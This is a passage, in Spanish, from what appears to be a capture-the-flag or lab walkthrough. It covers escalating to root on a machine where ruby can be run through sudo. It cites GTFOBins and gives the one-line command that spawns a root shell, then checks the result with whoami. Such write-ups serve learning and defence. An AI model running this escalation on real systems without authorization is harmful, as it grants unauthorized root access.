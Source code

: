 Vemos que podemos ejecutar como `sudo` `usr/bin/ruby`


### 4.2. Explotación y Escalada a Root

Se ejecuta la técnica para obtener una shell como `root`.

**Referencia (GTFOBins.):** https://gtfobins.github.io/gtfobins/ruby/#sudo 

<p align="center">
    <img src="Imagenes/136.png" width="1000">
</p>

**Comando de explotación:**

```
sudo ruby -e 'exec "/bin/sh"'
```

**Verificación:**

```
whoami
```

<p align="center">
    <img src="Imagenes/137.png" width="1000">
</p>

SOMOS ROOT 🚀


---

